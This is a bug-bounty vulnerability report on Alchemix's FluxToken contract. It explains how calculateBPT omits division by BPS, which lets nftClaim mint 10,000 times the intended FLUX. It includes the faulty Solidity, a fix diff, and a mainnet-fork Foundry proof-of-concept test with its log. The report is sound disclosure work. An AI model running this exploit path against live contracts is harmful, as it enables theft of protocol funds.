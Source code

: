 
# `FluxToken.calculateBPT` uses wrong algorithm causing `FluxToken.nftClaim` revenue to be 10,000 times higher than expected

Submitted on Fri May 17 2024 13:31:09 GMT-0400 (Atlantic Standard Time) by @yttriumzz for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31380

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/FluxToken.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro

The `FluxToken` contract allows users to mint some $FLUX at once using AlchemechNFT or AlEthNFT. The number of mint is calculated based on the `tokenData` of the NFT. However, `FluxToken.calculateBPT` does not divide by `BPS` resulting in the number of mint being 10000 times larger than expected.

## Vulnerability Details

Please look at the following code. The `getClaimableFlux` function is used to calculate the number of mint. It calls the `calculateBPT` function.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L215-L216
    function getClaimableFlux(uint256 _amount, address _nft) public view returns (uint256 claimableFlux) {
        uint256 bpt = calculateBPT(_amount);
```

Let's look at the `calculateBPT` function, which multiplies `_amount` by `bptMultiplier`.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L232-L234
    function calculateBPT(uint256 _amount) public view returns (uint256 bptOut) {
        bptOut = _amount * bptMultiplier;
    }
```

According to the comment of the `bptMultiplier` variable, it should represent `0.4%`. So, multiplied by `bptMultiplier` should be divided by `BPS (10000)`

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L43-L44
    /// @notice The ratio of FLUX patron NFT holders receive (.4%)
    uint256 public bptMultiplier = 40;
```

Note: The two divisions by `BPS` in the `getClaimableFlux` function correspond to the following variables, which have nothing to do with `bptMultiplier`.

- `fluxPerVe`: 5000 represents 50%
- `alchemechMultiplier`: 5 represents 0.05%

**Suggested fix**

```diff
    function calculateBPT(uint256 _amount) public view returns (uint256 bptOut) {
-       bptOut = _amount * bptMultiplier;
+       bptOut = _amount * bptMultiplier / BPS;
    }
```

## Impact Details

Users can get 10,000 times more $FLUX than expected

## References

None
        
## Proof of concept
The PoC patch

```diff
diff --git a/src/test/FluxToken.t.sol b/src/test/FluxToken.t.sol
index 22876a9..fb45d52 100644
--- a/src/test/FluxToken.t.sol
+++ b/src/test/FluxToken.t.sol
@@ -250,4 +250,18 @@ contract FluxTokenTest is BaseTest {
         assertEq(unclaimedFlux1End, 0, "should have no unclaimed flux");
         assertEq(unclaimedFlux2End, totalAmount, "should have all unclaimed flux");
     }
+
+    function testYttriumzzPocTemp() external {
+        uint256 patronNFTId = 4;
+        address patronNFTOwner = IAlEthNFT(patronNFT).ownerOf(patronNFTId);
+
+        console.log("tokenData of patronNFT: %s", IAlEthNFT(patronNFT).tokenData(patronNFTId));
+
+        uint256 fluxBalanceBefore = flux.balanceOf(patronNFTOwner);
+
+        hevm.prank(patronNFTOwner);
+        flux.nftClaim(patronNFT, patronNFTId);
+
+        console.log("Get $FLUX: %s", flux.balanceOf(patronNFTOwner) - fluxBalanceBefore);
+    }
 }
```

Run the PoC

```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
```

The log

```bash
$ FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/FluxToken.t.sol:FluxTokenTest
[PASS] testYttriumzzPocTemp() (gas: 118155)
Logs:
  tokenData of patronNFT: 249991869582520600
  Get $FLUX: 7499756087469342000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 14.90ms (889.67µs CPU time)

Ran 1 test suite in 792.98ms (14.90ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

The `tokenData` of the NFT is `0.24999186958252062`, and the mint $FLUX is `7.499756087469342`.